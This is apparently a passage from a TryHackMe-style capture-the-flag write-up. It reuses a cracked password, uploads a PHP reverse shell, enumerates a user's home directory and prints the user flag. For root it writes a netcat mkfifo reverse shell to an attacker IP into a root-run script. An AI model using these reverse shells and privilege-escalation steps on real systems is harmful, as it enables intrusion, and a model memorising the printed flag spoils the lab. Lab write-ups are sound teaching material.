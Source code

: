<div className="Image__Medium">
  <img src="https://imgur.com/ifVqzYr.png" alt="blog_image" />
</div>

```bash
Account :
manager:Password123 # We cracked the hash earlier
```

<div className="Image__Medium">
  <img src="https://imgur.com/buDQ4GO.png" alt="blog_image" />
</div>

Let's upload or own reverse shell on the server !

[pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

<div className="Image__Medium">
  <img src="https://imgur.com/57U4BDw.png" alt="blog_image" />
</div>

### #1 What is the user flag?

```bash
$ import pty; pty.spawn("/bin/sh")
/bin/sh: 1: Syntax error: word unexpected (expecting ")")
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### #2 What is the root flag?

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.228 5555 >/tmp/f" > /etc/copy.sh
```
